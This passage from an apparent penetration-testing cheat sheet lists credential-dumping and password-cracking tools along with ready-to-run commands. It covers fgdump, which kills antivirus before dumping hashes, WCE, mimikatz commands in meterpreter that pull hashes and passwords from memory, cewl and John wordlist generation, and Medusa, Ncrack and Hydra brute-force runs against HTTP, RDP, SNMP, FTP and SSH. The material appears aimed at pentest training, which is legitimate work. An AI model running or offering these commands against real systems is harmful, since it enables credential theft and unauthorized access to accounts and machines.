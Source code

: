     - `fgdump.exe` - attempts to kill local antiviruses before
        attempting to dump the password hashes and
        cached credentials.

- Windows Credential Editor (WCE)

    - allows one to perform several attacks to obtain clear text
        passwords and hashes. Usage: `wce -w`

- Mimikatz

    - extract plaintexts passwords, hash, PIN code and kerberos
        tickets from memory. mimikatz can also perform
        pass-the-hash, pass-the-ticket or build Golden tickets
        [*https://github.com/gentilkiwi/mimikatz*](https://github.com/gentilkiwi/mimikatz)
        From metasploit meterpreter (must have System level access):
        ```
        meterpreter> load mimikatz
        meterpreter> help mimikatz
        meterpreter> msv
        meterpreter> kerberos
        meterpreter> mimikatz_command -f samdump::hashes
        meterpreter> mimikatz_command -f sekurlsa::searchPasswords
        ```

- Password Profiling

    - cewl can generate a password list from a web page
        `cewl www.megacorpone.com -m 6 -w megacorp-cewl.txt`

- Password Mutating

    - John the ripper can mutate password lists
        nano /etc/john/john.conf
        `john --wordlist=megacorp-cewl.txt --rules --stdout > mutated.txt`

- Medusa

    - Medusa, initiated against an htaccess protected web
        directory
        `medusa -h $ip -u admin -P password-file.txt -M http -m DIR:/admin -T 10`

- Ncrack

    - ncrack (from the makers of nmap) can brute force RDP
        `ncrack -vv --user offsec -P password-file.txt rdp://$ip`

- Hydra

    - Hydra brute force against SNMP

        `hydra -P password-file.txt -v $ip snmp`

    - Hydra FTP known user and rockyou password list

        `hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp`

    - Hydra SSH using list of users and passwords

        `hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh`
